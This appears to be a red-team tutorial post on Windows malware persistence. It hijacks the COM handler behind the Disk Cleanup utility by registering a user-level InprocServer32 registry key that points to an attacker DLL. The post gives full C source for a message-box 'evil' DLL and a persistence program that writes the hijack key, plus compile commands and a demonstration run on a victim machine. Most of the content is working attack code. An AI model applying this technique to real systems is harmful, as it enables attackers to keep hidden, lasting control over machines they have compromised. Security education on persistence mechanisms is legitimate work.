









# 05 persistence - disk cleanup utility

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

   

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

       

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

    

    

    

This suggests, that we can use [COM DLL hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

First of all, as usually, create "evil" DLL (`hack.c`):      

```cpp
/*
 * Malware Persistence 101
 * hack.c
 * "Hello, Prishtina!" messagebox
 * author: @cocomelonc
*/
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Hello, Prishtina!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

And then create persistence script (`pers.c`):      

```cpp
/*
 * Malware Persistence 101
 * pers.c
 * windows persistence via Disk Cleaner
 * author: @cocomelonc
*/
#include <windows.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}\\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](https://cocomelonc.github.io/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

Compiling:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

    

And compile persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

   

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
.\pers.exe
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
```

    



As you can see, everything is worked perfectly! =^..^=     